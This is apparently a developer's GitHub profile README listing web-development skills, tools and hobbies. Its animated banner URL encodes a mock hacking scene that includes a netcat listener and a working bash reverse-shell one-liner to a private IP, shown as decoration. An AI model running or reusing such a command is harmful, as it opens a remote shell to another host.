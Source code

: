 <h1>Hi I'm <i><a href="https://github.com/rXolboyev" rel="nofollow"><b>Xolboyev</b></i></a>, And I'm...</h1>

<img align="right" width="330" src="https://media.giphy.com/media/v1.Y2lkPWVjZjA1ZTQ3bDFoeTM2ZHY0YzY1aXZyeDVqeWlqMTUyZTlweHM0d2NqcHV5Z3VjZCZlcD12MV9naWZzX3NlYXJjaCZjdD1n/ToMjGplujsIS6kHzUPK/giphy.gif" alt="coding">

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&duration=2700&pause=100&color=0034ff&multiline=true&width=500&height=350&lines=nc+-lvnp+4444;listening+on+%5Bany%5D+4444+...;connect+to+%5BXolboyev%5D++profile+;bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.44.38%2F4444+0%3E%261;Xolboyev%40profile%3A~%24+.%2Fexploit.py;+;...................PwN3d!......................................;Hello+Stranger!+Xolboyev+is+serving+here...;...............................................................;++;%24+whoami;Xolboyev" alt="Typing SVG" /></a>

<p align="left">
  <img src="https://komarev.com/ghpvc/?username=rXolboyev&label=Profile%20views&color=0e75b6&style=flat" alt="xolboyev" />
    &nbsp;
  <img src="https://badges.frapsoft.com/os/v1/open-source.svg?v=102" alt="Open Source Love"" />
</p>


```javascript
const data = {
    pronouns: ["He" | "Him"],
    codename: "xolboyev.",
    status: "still alive",
    doing: "Forging Web Realms...",
    hobbies: ["{Coding}", "{CTF}", "{Speedcubing}", "{Gaming}"], // If that even matters lol
    code: ["{Python}", "{Javascript}", "{Typescript}", "{Bash}"],
    webdev: {
        frontEnd: {
            technologies: ["HTML", "CSS", "JavaScript", "Bootstrap", "React JS", "Tailwind CSS"],
        },
        backEnd: {
            technologies: ["Node JS", "Express JS", "Next JS", "SQL"],
        }
    },
    contact: {
        email: "xolboyev@proton.me",
    },
};
```

<h3 align="left">Languages and Tools:</h3>
<img align="left" alt="linux" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/linux/linux-original.svg" style="padding-right:10px;" />
<img align="left" alt="arch" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/archlinux/archlinux-original.svg" style="padding-right:10px;" />
<img align="left" alt="neovim" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/neovim/neovim-original.svg" style="padding-right:10px;" />
<img align="left" alt="python" width="26px" src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" style="padding-right:10px;" />
<img align="left" alt="HTML5" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/html5/html5-original.svg" style="padding-right:10px;" />
<img align="left" alt="CSS3" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/css3/css3-original.svg" style="padding-right:10px;" />
<img align="left" alt="JavaScript" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/javascript/javascript-original.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="33px" src="https://devicon-website.vercel.app/api/tailwindcss/plain.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="26px" src="https://cdn.worldvectorlogo.com/logos/framer-motion.svg" style="padding-right:10px;" />
<img align="left" alt="React" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/react/react-original.svg" style="padding-right:10px;" />
<img align="left" alt="Node.js" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/nodejs/nodejs-original.svg" style="padding-right:10px;" />
<img align="left" alt="MongoDB" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mongodb/mongodb-original.svg" style="padding-right:10px;" />
<img align="left" alt="MySQL" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mysql/mysql-original.svg" style="padding-right:10px;" />
<img align="left" alt="Git" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/git/git-original.svg" style="padding-right:10px;" />
<img align="left" alt="GitHub" width="26px" src="https://user-images.githubusercontent.com/3369400/139447912-e0f43f33-6d9f-45f8-be46-2df5bbc91289.png" style="padding-right:10px;" />
<img align="left" alt="Terminal" width="26px" src="https://external-content.duckduckgo.com/iu/?u=https%3A%2F%2Fmedia.vlpt.us%2Fimages%2Fdhlee91%2Fpost%2F2825c6cc-2f27-4ee3-adc3-4f2fb2b6d1cb%2FLinux-Terminal-icon.png&f=1&nofb=1&ipt=90279d5891412b4d79fcb58b9e0ad9d9aa1312df26603bae36893fdf7195967e" />
<br>
<br>

